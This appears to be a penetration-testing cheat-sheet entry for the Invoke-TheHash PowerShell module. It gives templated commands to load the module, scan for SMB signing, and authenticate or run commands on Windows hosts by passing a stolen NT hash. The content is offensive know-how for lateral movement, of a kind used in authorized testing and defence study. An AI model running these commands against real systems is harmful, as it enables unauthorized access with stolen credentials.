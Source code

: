 # invoke-thehash

% pth, windows

#plateform/windows #target/local #cat/UTILS


## load module
https://github.com/Kevin-Robertson/Invoke-TheHash
```
Import-Module ./Invoke-TheHash.psd1
```

## Check SMB signing
```
Invoke-TheHash -Type SMBExec -Target '<ip_range>'
```

## Check for command execution (pth)
SMBClient, SMBEnum, SMBExec, or WMIExec
```
Invoke-TheHash -Type <method|SMBExec> -Domain <domain> -Username <user> -Hash <nt_hash> -Target <ip>
```

## execute command (pth) 
SMBClient, SMBEnum, SMBExec, or WMIExec
```
Invoke-TheHash -Type <method|SMBExec> -Domain <domain> -Username <user> -Hash <nt_hash> -Command "<command|whoami>" -Target <ip>
```
